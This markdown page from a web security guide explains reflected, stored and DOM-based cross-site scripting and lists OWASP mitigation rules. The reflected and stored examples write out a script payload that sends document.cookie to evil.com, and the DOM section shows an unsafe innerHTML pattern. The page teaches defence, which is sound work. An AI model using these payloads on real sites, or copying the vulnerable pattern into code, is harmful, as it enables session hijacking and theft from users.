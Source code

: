 ```yaml
---
title: Cross-site scripting (XSS)
sidebar_position: 8
---
```


# Cross-site scripting (XSS)

## The Attack

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/L5l9lSnNMxg'
></iframe>

## Reflected XSS

![Reflected XSS sample workflow](/img/rxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)_

### Keys

- The Attack is focused on the user input like crafted urls with mailicious payload.

### Example

It is very simple to add a malicious payload in a vulnerable website link.

```
http://website.com/search?keyword=<script>window.location='http://evil.com/?c='+document.cookie</script>
```

The victim will open this link and will be redirected to a malicious site with the cookie content in the URL.

Inside the malicious code we can add extra payloads like (ajax calls... )

## persistent XSS

![p-XSS sample workflow](/img/pxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)_

### Keys

Also known as stored XSS. The malicious script comes from the website's database, so this attack requires few steps to succeed.

- In the first step the attacker will add a malicious payload to the server (so it will be stored).
- Later on the victims will access to the site and the malicious payload will be downloaded together with the legitimate content.

This attack can lead to Cookie theft, KeyLogging, Phishing...

### Example

The attacker adds a malicious payload in the comments section of the site.

```
POST "http://website.com/blog/post-1/comment", body{"<script>window.location='http://evil.com/?c='+document.cookie</script>}
```

Any user that visits the website will be vulnerable once this malicious comment is loaded.

## DOM XSS

![DOM-XSS sample workflow](/img/dom_xss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)_

### Keys

If the attacker controls any input field value, they can easily add malicious values:

```js
const search = document.getElementById('search').value
document.getElementById('results').innerHTML = `You searched for: ${search}`
```

```
You searched for: <img src=error onerror='/* Evil payload */'>
```

### Notable incidents

- [The Telegraph | TweetDeck hack hits BBC and White House accounts](https://www.telegraph.co.uk/technology/twitter/10894635/BBC-and-White-House-accounts-in-TweetDeck-hack.html)
- [VICE | The MySpace Worm that Changed the Internet Forever](https://www.vice.com/en_us/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)

## The solution

There are no definitive solutions to avoid this attack but it can be highly mitigated.

## Mitigation

### [Keys from OWASP Cheat sheets for XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

- 0 - Never Insert Untrusted Data Except in Allowed Locations
- 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
- 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
- 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
- 3.1 - HTML escape JSON values in an HTML context and read the data with `JSON.parse`
- 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
- 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
- 6 - Sanitize HTML Markup with a Library Designed for the Job
- 7 - Avoid JavaScript URL's

### [Keys from OWASP Cheat sheets for DOM XSS](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

- 1 - HTML Escape then JavaScript Escape Before Inserting Untrusted Data into HTML Subcontext within the Execution Context
- 2 - JavaScript Escape Before Inserting Untrusted Data into HTML Attribute Subcontext within the Execution Context
- 3 - Be Careful when Inserting Untrusted Data into the Event Handler and JavaScript code Subcontexts within an Execution Context
- 4 - JavaScript Escape Before Inserting Untrusted Data into the CSS Attribute Subcontext within the Execution Context
- 5 - URL Escape then JavaScript Escape Before Inserting Untrusted Data into URL Attribute Subcontext within the Execution Context
- 6 - Populate the DOM using safe JavaScript functions or properties
- 7 - Fixing DOM Cross-site Scripting Vulnerabilities

### Other

- The [Recommendations for HTTP Headers in this guide](/http_headers/)
- The [Best practices for Express in this guide](/best_practices/express)
- The [Best practices for React in this guide](/best_practices/react)

### Refs

- [ckarande | Top Overlooked Security Threats to Node.js Web Applications](https://speakerdeck.com/ckarande/top-overlooked-security-threats-to-node-dot-js-web-applications?slide=24)
- [Scott Smith | Cross Site Scripting (XSS)](http://scottksmith.com/blog/2015/06/22/secure-node-apps-against-owasp-top-10-cross-site-scripting/)
- [portswigger | Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [Medium | Persistent Cross Site Scripting (p-XSS)](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)
- [Medium | DOM-Based Cross Site Scripting (DOM-XSS)](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
- [Medium | Reflected Cross Site Scripting (r-XSS)](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)
- [Computerphile | Cracking Websites with Cross Site Scripting](https://www.youtube.com/watch?v=L5l9lSnNMxg)
